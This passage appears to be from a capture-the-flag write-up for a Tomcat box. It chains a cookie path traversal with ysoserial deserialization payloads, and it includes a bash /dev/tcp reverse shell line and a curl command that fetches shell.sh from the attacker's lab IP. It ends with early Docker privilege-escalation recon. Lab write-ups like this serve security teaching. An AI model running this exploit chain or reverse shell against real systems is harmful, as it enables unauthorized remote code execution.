 Sending another request to exploit a **Path Traversal** vulnerability in the _Cookie_ header and executing the uploaded file in the directory _/opt/samples/uploads_:
```
GET /service/ HTTP/1.1
(...)
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/serialized
```

Tomcat will request the serialized object and the `tcpdump` listener on my IP will receive an ICMP package and proofs command execution.
Lets use the vulnerabilities to upload a reverse shell script and execute it.

Creating _shell.sh_ that will be uploaded and executed:
```
bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

Creating two serialized objects, one that uploads _shell.sh_ with `curl` and another one that executes it:
```
java -jar ysoserial.jar CommonsCollections4 "curl 10.10.14.7:8000/shell.sh -o /dev/shm/shell.sh" > shellupload.session

java -jar /opt/ysoserial/ysoserial.jar CommonsCollections4 "bash /dev/shm/shell.sh" > shellexec.session
```

Uploading _shellupload.session_ and _shellexec.session_ on the web service:
```
Content-Disposition: form-data; name="image"; filename="shellupload.session"
Content-Type: application/octet-stream

(...data...)
```
```
Content-Disposition: form-data; name="image"; filename="shellexec.session"
Content-Type: application/octet-stream

(...data...)
```

Executing the serialized objects one after another:
```
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/shellupload
```
```
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/shellexec
```

The first request downloads _shell.sh_ and the second request executes it successfully and the listener on my IP and port 9001 starts a reverse shell as _tomcat_.

## Privilege Escalation

When checking the network interfaces, if shows a _docker0_ interface, so **Docker** is running on this box.
This user does not have permission to look at the running Docker instances, but the ports on localhost could give insight on that:
```
ss -lnpt

State    Recv-Q   Send-Q          Local Address:Port        Peer Address:Port   Process
(...)
LISTEN   0        4096                127.0.0.1:4505             0.0.0.0:*
LISTEN   0        4096                127.0.0.1:4506             0.0.0.0:*
LISTEN   0        4096                127.0.0.1:8000             0.0.0.0:*
(...)
```
